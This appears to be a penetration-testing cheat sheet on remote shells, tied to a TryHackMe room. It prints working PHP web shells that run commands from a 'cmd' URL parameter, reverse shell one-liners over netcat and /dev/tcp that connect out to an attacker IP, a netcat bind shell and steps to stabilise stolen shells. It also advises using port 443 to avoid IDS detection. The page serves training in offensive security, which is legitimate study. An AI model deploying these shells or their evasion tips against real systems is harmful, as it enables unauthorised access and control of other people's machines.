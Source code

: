 # Shell

[![introtoshells](../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-md-2"><div>

The best kind of situation of a hacker is when it's possible to run commands on the target, or better, to run code on the target. The hacker will typically exploit a vulnerability <small>(ex: file upload, command injection...)</small> leading to a **RCE**

* Remote Command Execution
* Remote Code Execution

On Kali, you can find preinstalled reverse/web shells inside ([gitlab](https://gitlab.com/kalilinux/packages/webshells))

```bash
$ ls /usr/share/webshells
```
</div><div>

The script leading to a RCE could use

* a **reverse shell**: we open a port on our machine, and the target connect to it. We can run commands on the target, and hopefully do a successful privilege escalation.
* a **bind shell**: we open a port on the target and connect to it. This is like SSH, but we with a port we picked, and no login/password.
* a **web shell**: we are using a webpage with a form to run commands. It's a bit hard to use, but it may be the only way.

> To avoid alerting IDS, a bind/reverse shell should use a port that would not be suspected such as `443` (HTTPS).<br>
>
> It's not always possible to use a bind/reverse shell, there will most likely be a firewall blocking access.
</div></div>

<hr class="sep-both">

## Tools to generate payloads

A payload is a code leading to a reverse/bind/web shell. You will pick one based on criteria like the platform...

<div class="row row-cols-md-2"><div>

🐍 [msfvenom](metasploit/msfvenom.md) is a famous **script** to generate payloads. 🐍

There is a **website** called [revshells](https://www.revshells.com/) that is also giving commands to listen, and some of msfvenom payloads.
</div><div>

There is a **script** called [revshellgen](https://github.com/t0thkr1s/revshellgen) (0.3k ⭐) that is an automated and simplified interface to create payloads.

There is a **script** called [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, 2018/2019) that is a simplified interface to create payloads.
</div></div>

<hr class="sep-both">

## web shell in PHP

If you created a file **xxx.php**, then you can run commands by accessing the URL **xxx.php?cmd=payload**. The result is wrapped with `<pre>` so that the result is not formatted and displayed raw. I added ` 2>&1` to redirect errors.

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php))

```php
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

which is the same as

```php
<?php echo "<pre>".shell_exec(/* code */)."</pre>"; ?>
```

* ➡️ simple web shell with `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div><div>

* ➡️ simple web shell with `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

* ➡️ simple web shell with `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```
</div></div>

<hr class="sep-both">

## Reverse shell

<div class="row row-cols-md-2 mt-3"><div>

* ➡️PHP pentest monkey

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015).

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
# ex: listen on HOST_IP port 4444
$ sed -i 's/127.0.0.1/HOST_IP/' /tmp/revshell.php
$ sed -i 's/1234/4444/' /tmp/revshell.php
```
</div><div>

* ➡️ Using netcat

```bash
# on the hacker machine
$ nc -lnvp port
```

```bash
# on the target
$ nc -c /bin/bash hacker_ip port
# or if -e is available
$ nc hacker_ip port -e /bin/bash
```

* ➡️ Each of the common below are connect to `IP:PORT`

```bash
$ /bin/bash -i >& /dev/tcp/IP/PORT 0>&1
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc IP PORT >/tmp/f
```
</div></div>

<hr class="sep-both">

## Bind shell

We are exchanging sides with what we do in reverse shells. Now you execute the code to listen on the target, and connect from your machine.

<div class="row row-cols-md-2"><div>

* ➡️ Example with netcat

```bash
# on the target
$ nc -lnvp port -e /bin/bash
```
```bash
# on the hacker machine
$ nc target_ip port
```
</div><div>

</div></div>

<hr class="sep-both">

## Stabilize reverse/bind shells

<div class="row row-cols-md-2"><div>

Usually, when opening a reverse/bind shell, the shell is quite instable

* 🚀 you can't use commands requiring user input, such as `sudo` asking for a password

* 🍃 You can't clear nor resize your terminal

* 👑 There is no autocompletion

* ⛔ If you press CTRL+C, the shell dies, so you can't cancel a remote command

> Note that note every shell can be upgraded. For instance, I had issues with the PHP reverse TCP shell in which I couldn't enter `bash` nor call `python` to upgrade my shell. But, when I used pentestmonkey reverse shell, the same commands you can see here worked.

* ➡️ Use a wrapper such as [penelope](https://github.com/brightio/penelope) (0.3k ⭐)

```bash
$ git clone https://github.com/brightio/penelope.git
$ cd penelope
$ python penelope.py 4444
xxx@yyy:path$ # CTRL+C / ...
# on Linux: OK
# on Windows: only a basic shell
```
</div><div>

There are a few solutions way to make things better

* ➡  Manually

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
xxx@yyy:path$ export TERM=xterm # can use clear...
xxx@yyy:path$ # CTRL+Z
kali@kali:/tmp$ stty raw -echo; fg
xxx@yyy:path$ # can use CTRL+C / ...
xxx@yyy:path$ exit
kali@kali:/tmp$ reset # restore your terminal
# you may have to close your terminal
# if it does not respond
```

* ➡️ Manually resize your terminal

First, open another terminal and resize it with the size you want. Use `stty -a` and take note of the number of rows/columns.

Then, In the terminal to resize, use `stty rows n` and `stty cols n`

* ➡️ Use a wrapper such as [rlwrap](https://github.com/hanslub42/rlwrap) (1.8k ⭐)

```bash
$ sudo rlwrap nc -lvnp 4444
xxx@yyy:path$ # still CTRL+C not working
```
</div></div>